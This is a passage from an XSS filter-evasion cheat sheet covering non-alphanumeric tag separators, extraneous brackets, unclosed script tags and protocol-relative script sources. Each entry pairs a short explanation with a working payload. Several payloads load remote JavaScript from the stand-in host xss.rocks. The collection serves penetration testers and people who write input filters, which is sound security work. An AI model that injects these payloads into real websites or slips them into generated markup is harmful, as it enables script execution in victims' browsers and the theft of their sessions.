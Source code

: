 `<IMG SRC=" &#14; javascript:alert('XSS');">`

Non-alpha-non-digit XSS
-----------------------

The Firefox HTML parser assumes a non-alpha-non-digit is not valid after an HTML keyword and therefor considers it to be a whitespace or non-valid token after an HTML tag. The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace. For example `\<SCRIPT\\s` != `\<SCRIPT/XSS\\s`:

`<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>`

Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc…) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:

````
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.

`<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>`

Extraneous Open Brackets
------------------------

Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:

`<<SCRIPT>alert("XSS");//\<</SCRIPT>`

No Closing Script Tags
----------------------

In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don’t actually need the `\></SCRIPT>` portion of this Cross Site Scripting vector. Firefox assumes it’s safe to close the HTML tag and add closing tags for you. How thoughtful! Unlike the next one, which doesn’t effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they’re not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:

`<SCRIPT SRC=http://xss.rocks/xss.js?< B >`

Protocol Resolution in Script Tags
----------------------------------

This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh’s protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a `</SCRIPT>` tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The “.j” is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.

`<SCRIPT SRC=//xss.rocks/.j>`

Half Open HTML/JavaScript XSS Vector
------------------------------------

````